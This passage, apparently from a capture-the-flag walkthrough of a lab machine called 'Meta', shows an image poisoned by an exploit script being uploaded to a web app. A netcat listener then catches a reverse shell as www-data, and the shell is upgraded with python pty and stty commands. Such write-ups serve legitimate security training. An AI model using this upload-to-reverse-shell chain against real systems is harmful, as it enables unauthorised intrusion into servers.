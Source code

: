 Running the script the image is getting updated with the payload.

```php
$ python3 exploit.py
    1 image files updated
```

Now we just have to set up a listener on the port we specified and upload the generated image to the website.

```php
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

[![025_upload_image](/img/meta/025_upload_image.png)](/img/meta/025_upload_image.png)

After we click the upload button the page hangs and we get a connection back on our ncat listener as www-data which we upgrade using python and fix the terminal size.

```php
$ nc -lnvp 7575
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.166.252.
Ncat: Connection from 10.129.166.252:43968.
/bin/sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ export TERM=xterm
export TERM=xterm
www-data@meta:/var/www/dev01.artcorp.htb/metaview$ ^Z
[1]  + 43617 suspended  nc -lnvp 7575
$ stty raw -echo;fg
[1]  + 43617 continued  nc -lnvp 7575

www-data@meta:/var/www/dev01.artcorp.htb/metaview$
```
